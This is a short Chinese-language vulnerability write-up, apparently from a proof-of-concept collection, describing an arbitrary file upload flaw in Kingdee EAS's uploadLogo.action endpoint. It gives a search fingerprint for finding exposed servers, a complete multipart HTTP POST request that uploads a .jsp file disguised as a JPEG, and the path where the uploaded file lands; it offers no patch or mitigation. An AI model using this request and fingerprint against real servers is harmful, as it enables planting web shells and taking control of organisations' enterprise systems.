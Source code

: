 # 金蝶OA EAS系统 uploadLogo.action 任意文件上传漏洞

# 金蝶OA EAS系统 uploadLogo.action 任意文件上传漏洞

## 漏洞描述

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## 漏洞影响

金蝶OA EAS系统

## 网络测绘

```
"/easportal/"
```

## 漏洞复现

登陆页面

![image-20231116141032395](images/image-20231116141032395.png)

poc

```
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycxkT8bV6WLIUzm2p

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="chooseLanguage_top"
ch

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="dataCenter"

xx
------WebKitFormBoundarycxkT8bV6WLIUzm2p 
Content-Disposition: form-data; name="insId"

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="type"

top
------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="upload"; filename="text.jsp"
Content-Type: image/jpeg

Test
------WebKitFormBoundarycxkT8bV6WLIUzm2p--
```

![image-20231116141050903](images/image-20231116141050903.png)

```
/portal/res/file/upload/xxx.jsp
```


